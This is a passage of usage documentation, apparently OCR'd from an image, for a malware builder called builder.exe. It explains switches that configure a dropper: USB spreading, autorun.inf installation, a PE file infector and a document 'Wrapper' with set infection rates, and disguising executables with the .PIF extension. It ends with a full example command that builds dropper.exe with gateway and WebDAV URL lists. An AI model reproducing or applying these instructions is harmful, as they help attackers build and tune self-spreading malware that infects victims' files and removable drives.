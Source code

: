     -o      Output binary (String)
                The output binary will be stored to the location specified.

    -1      Enables nTM (Boolean)
    -2      Enables all USB Ops (Boolean)
                (NOTE: Either 1 or 2 must enabled)
    -3      Enables the Autorun generator (Boolean)
    -4      Enables the date appender in the USB Wrapper (Boolean)
    -5      Enables RTO
    -6      Enables the Wrapper
    -7      Enables the PE Infector
                (NOTE: Either 3, 6 or 7 must be enabled)

    -i      PE Infector Switch (Integer)
                If 0, the PE infector is completely disabled.
                An integer between 1-100 is the percentage (or likeliness) 
                    that the PE infector will target a file.
                    (1 means 1/100 chance, and 100 means always infect)

    -r      Wrapper Infector Switch (Integer)
                If 0, the Wrapper is completely disabled.
                An integer between 1-100 is the percentage (or likeliness)
                    that the Wrapper will infect a document.
                    (1 means 1/100 chance, and 100 means always infect)

    -t      Any USB file accessed after n amount of days will be ignored.
                This includes PEs and Documents
                If 0, every file will be infected.

    -p      The likeliness that a .PIF extension will be used instead 
                of the regular .exe
                (0 means PIF will never be used, 100 means PIF will
                always be used)

Example:

builder.exe -u gateway_list.txt
            -d webdav_list.txt
            -a 666
            -w 777
            -o dropper.exe
            -1 1                        (nTM Enabled)
            -2 1                        (USB Ops enabled)
            -3 1                        (Will install autorun.inf in the USB)
            -4 0                        (Will not append the date in the wrapped USB File)
            -5 1                        (Enables RTO)
            -6 1                        (Enables the Wrapper)
            -7 1                        (Enables the PE infector)
            -i 50                       (PE infector infects every other file)
            -r 75                       (3/4th of the Docs are wrapped)
            -t 30                       (Only documents accessed within the last 30 days are noticed)
            -p 50                       (Half/half chance that the .PIF extension will be used)


    As noted before, the parameters must be in order. Each parameter must exist. 
Finally, the Gateway URL (-u) and WEBDAV URL lists can be the same file.
